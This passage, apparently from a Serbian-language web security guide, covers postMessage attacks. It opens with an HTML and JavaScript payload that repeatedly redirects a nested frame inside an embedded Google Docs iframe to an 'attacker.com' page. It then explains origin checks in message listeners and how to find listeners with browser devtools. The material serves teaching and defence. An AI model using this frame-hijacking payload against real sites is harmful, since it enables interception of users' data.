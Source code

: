 ```markup
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
setTimeout(exp, 6000); //Wait 6s

//Try to change the origin of the iframe each 100ms
function exp(){
setInterval(function(){
window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
}, 100);
}
</script>
```

## Iskorišćavanje funkcije addEventListener

**`addEventListener`** je funkcija koju JS koristi za deklarisanje funkcije koja očekuje **`postMessages`**.\
Koristiće se sličan kod kao što je prikazan ispod:

```javascript
window.addEventListener("message", (event) => {
if (event.origin !== "http://example.org:8080")
return;

// ...
}, false);
```

U ovom slučaju, **prva stvar** koju kod radi je **provera porekla**. Ovo je izuzetno **važno**, posebno ako stranica treba da izvrši **nešto osetljivo** sa primljenim informacijama (kao što je promena lozinke). **Ako ne proverava poreklo, napadači mogu naterati žrtve da šalju proizvoljne podatke na ove endpointe** i promeniti lozinke žrtava (u ovom primeru).

### Enumeracija

Da biste **pronašli slušače događaja** na trenutnoj stranici, možete:

* **Pretražite** JS kod za `window.addEventListener` i `$(window).on` (_JQuery verzija_)
* **Izvršite** u konzoli alata za razvoj: `getEventListeners(window)`

![](<../../.gitbook/assets/image (618) (1) (1).png>)

* **Idite na** _Elements --> Event Listeners_ u alatima za razvoj pregledača

![](<../../.gitbook/assets/image (617).png>)
